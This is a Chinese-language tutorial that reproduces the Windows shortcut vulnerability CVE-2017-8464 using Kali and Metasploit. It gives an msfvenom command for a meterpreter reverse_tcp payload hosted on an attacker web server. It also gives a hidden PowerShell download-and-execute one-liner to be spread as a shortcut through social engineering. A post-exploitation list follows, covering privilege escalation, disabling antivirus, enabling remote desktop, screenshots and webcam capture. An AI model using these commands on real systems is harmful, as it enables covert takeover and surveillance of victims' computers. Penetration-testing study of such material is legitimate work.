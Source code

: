 # 一、 什么是 CVE-2017-8464：

说明：

2017年6月13日，微软官方发布编号为CVE-2017-8464的漏洞公告，官方介绍Windows系统在解析快捷方式时存在远程执行任意代码的高危漏洞，黑客可以通过U盘、网络共享等途径触发漏洞，完全控制用户系统，安全风险高危

传播的载体一般是LNK ，LNK是windows系统内应用程序快捷方式文件的文件类型后缀名。

危害：

被攻击机插入存在攻击lnk的U盘后会反弹shell，哪怕是被隔离的内网，也可以在不上网的情况下被攻击。

# 二、环境准备：

1 可复现的操作系统版本：

* Microsoft Windows 10 Version 1607 for 32-bit Systems
* Microsoft Windows 10 Version 1607 for x64-based Systems
* Microsoft Windows 10 for 32-bit Systems
* Microsoft Windows 10 for x64-based Systems
* Microsoft Windows 10 version 1511 for 32-bit Systems
* Microsoft Windows 10 version 1511 for x64-based Systems
* Microsoft Windows 10 version 1703 for 32-bit Systems
* Microsoft Windows 10 version 1703 for x64-based Systems
* Microsoft Windows 7 for 32-bit Systems SP1
* Microsoft Windows 7 for x64-based Systems SP1
* Microsoft Windows 8.1 for 32-bit Systems
* Microsoft Windows 8.1 for x64-based Systems
* Microsoft Windows RT 8.1

2 可复现的服务器系统版本：

* Microsoft Windows Server 2008 R2 for Itanium-based Systems SP1
* Microsoft Windows Server 2008 R2 for x64-based Systems SP1
* Microsoft Windows Server 2008 for 32-bit Systems SP2
* Microsoft Windows Server 2008 for Itanium-based Systems SP2
* Microsoft Windows Server 2008 for x64-based Systems SP2
* Microsoft Windows Server 2012
* Microsoft Windows Server 2012 R2
* Microsoft Windows Server 2016

3 kali操作系统

# **三、利用原理** ：

创建恶意快捷方式，包含恶意执行脚本，点击恶意快捷方式，导致本机中病毒，并且被远控。

# 四、实战利用

启动MSF

终端内输入：msfconsole

开始利用：

#### 1、使用MSF创建一个后门

msf内输入：

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.3.23 lport=4456 -f psh-reflection>/var/www/html/link.ps1

#### 2、在kali下开启apache2

终端内输入：service apache2 start

#### 3、通过社会学进行快捷方式传播

powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.204.135/link.ps1');test.ps1"

![1641972171811](一、 什么是 CVE-2017-8464：.assets/1641972171811.png) 

![1641972183309](一、 什么是 CVE-2017-8464：.assets/1641972183309.png)

#### 4 回到MSF终端配置监听

msf内输入：  use exploit/multi/handler

#### 5 配置payload

set payload windows/x64/meterpreter/reverse_tcp

![1641972198597](一、 什么是 CVE-2017-8464：.assets/1641972198597.png)

msf中输入 ： show options   配置payload

![1641972211876](一、 什么是 CVE-2017-8464：.assets/1641972211876.png)

设置 LHOST  和  LPORT

maf中输入：

5.1  set lhost `<当前机器ip>` 设置 LHOST

5.2  set lport  `<未被占用的端口>`  设置 LPORT

![1641972223277](一、 什么是 CVE-2017-8464：.assets/1641972223277.png)

5.3  最后在 输入 show options 查看配置是否生效

![1641972233527](一、 什么是 CVE-2017-8464：.assets/1641972233527.png)

#### 6、执行监听

msf中输入 ： run 或者  exploit

![1641972244295](一、 什么是 CVE-2017-8464：.assets/1641972244295.png)

进入靶机执行我们在靶机上创建的快捷方式

![1641972183309](一、 什么是 CVE-2017-8464：.assets/1641972183309.png)

稍等片刻获取到meterpreter

![1641972268406](一、 什么是 CVE-2017-8464：.assets/1641972268406.png)

# 五、后渗透

1、通过快捷方式执行程序

meterpreter中输入  shell

![1641972283719](一、 什么是 CVE-2017-8464：.assets/1641972283719.png)

发现shell显示有乱码

shell内输入  chcp 65001

![1641972295944](一、 什么是 CVE-2017-8464：.assets/1641972295944.png)

然后进入desktop目录（这个是win的桌面）

根据实际情况拼路径

shell 里输入：cd users/mb/desktop

![1641972307789](一、 什么是 CVE-2017-8464：.assets/1641972307789.png)

2 更多操作

查看进程：ps
查看当前进程号：getpid
查看系统信息：sysinfo
查看目标机是否为虚拟机：run post/windows/gather/checkvm
查看完整网络设置：route
查看当前权限：getuid
自动提权：getsystem
关闭杀毒软件：run post/windows/manage/killav
启动远程桌面协议：run post/windows/manage/enable_rdp
列举当前登录的用户：run post/windows/gather/enum_logged_on_users
查看当前应用程序：run post/windows/gather/enum_applications
抓取目标机的屏幕截图：load espia ； screengrab
抓取摄像头的照片：webcam_snap
查看当前处于目标机的那个目录：pwd
查看当前目录：getlwd
